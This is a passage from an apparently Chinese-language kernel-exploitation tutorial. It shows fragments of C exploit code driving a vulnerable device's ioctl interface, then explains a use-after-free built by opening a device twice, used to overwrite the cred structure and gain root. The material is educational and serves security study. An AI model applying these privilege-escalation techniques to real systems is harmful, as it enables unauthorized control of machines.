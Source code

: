 ```
        printf("[*]fork fail\n");
    }
    else{
        wait(NULL);
    }
 
    return 0;
 
}
 
 
int openDev(char* pos){
    int fd;
    printf("[+] Open %s...\n",pos);
    if ((fd = open(pos, O_RDWR)) < 0) {
        printf("    Can't open device file: %s\n",pos);
        exit(1);
    }
    return fd;
}
 
void addFun(int fd, struct addNote* arg)
{
    ioctl(fd,1,arg);
}
 
void freeFun(int fd, struct editNote* arg)
{
    ioctl(fd,888,arg);
}
 
void editFun(int fd, struct editNote* arg)
{
    ioctl(fd,3,arg);
}
 
void readFun(int fd, struct editNote* arg)
{
    ioctl(fd,4,arg);
} 
```

这里还需要说明的是，cred 结构体大小在我编译的 4.4.72 中为 0xa8，在不同内核版本可能不同，通常可以查看对应版本的 Linux 内核源码或者写个简便的 C 程序运行一下即可知道。

2. 伪条件竞争造成的 UAF(多进程)
--------------------

### 前置知识

前面我们的 UAF 是正常的指针未置空的 UAF，但如果在程序中是 add 函数申请 chunk，只有在关闭设备时才会释放 chunk。那么这样当我们对一个设备进行操作时，只有在关闭设备时才能释放 chunk，这就无法显著地造成 UAF。但是如果能够对同一个设备打开两次 (操作符分别为 fd1,fd2) ，申请一个堆块后，关闭掉第一个设备 fd1 后，就能释放该堆块。之后利用 fd2 继续对设备进行写操作，就能够继续修改释放掉的堆块了，这样就造成了一个 UAF 漏洞。同样也是利用 cred 结构体进行提权。
